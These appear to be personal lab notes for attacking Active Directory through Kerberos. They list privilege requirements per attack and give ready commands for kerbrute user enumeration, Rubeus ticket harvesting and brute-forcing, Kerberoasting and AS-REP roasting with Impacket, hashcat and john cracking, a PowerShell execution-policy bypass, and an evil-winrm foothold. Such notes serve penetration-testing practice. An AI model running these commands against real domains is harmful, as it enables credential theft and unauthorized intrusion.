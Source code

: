 ## Attack privilege requirements

Kerbrute Enumeration - No domain access required
Pass the Ticket - Access as a user to the domain required
Kerberoasting - Access as any user required
AS-REP Roasting - Access as any user required
Golden Ticket - Full domain compromise (domain admin) required
Silver Ticket - Service hash required
Skeleton Key - Full domain compromise (domain admin) required

## Enumeration

Kerbrute = https://github.com/ropnop/kerbrute/releases
User.txt = https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt
`kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local /usr/share/wordlists/AD/User.txt`

## Harvesting tickets

`Rubeus.exe harvest /interval:30`
`echo 10.10.183.221 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`
`Rubeus.exe brute /password:Password1 /noticket`
OR remote
`sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.131.2 -request`

`Rubeus.exe asreproast`
`hashcat -m 18200 hash.txt pass.txt`

Mimikatz = Post exploitation tool, dumping user credentials

# Windows Post Exploitation

TLD = Top Level Domain
KDC = Key Distribution Center
SPN = Service Principal Name
TGS = Service Ticket

## Enumeration

`powershell -ep bypass` <-- Bypass execution policy of powershell
`. .\PowerView.ps1` <-- Start powerview

Enumerate Domain Users=`Get-NetUser | select cn`
Enumerate Domain Groups=`Get-NetGroup -GroupName *admin*`

Cheat sheet at https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

# Method

1. Port scanning
   1. Find DNS Domain name, add it to etc/hosts
2. Kerberos enumeration
   1. `kerbrute --dc domain.local -d domain.local userlist.txt`
   2. `GetNPUsers.py domain.local/username -no-pass`
   3. If ticket is granted
      1. Crack ticket
         1. `hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`
         2. `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
3. SMB enumeration
   1. smbclient -L \\\\ip\\ -U username
   2. crack hashes
   3. Get a certificate.pem file
   4. Get a key.pem file
   5. Use evil-winrm to get a foothold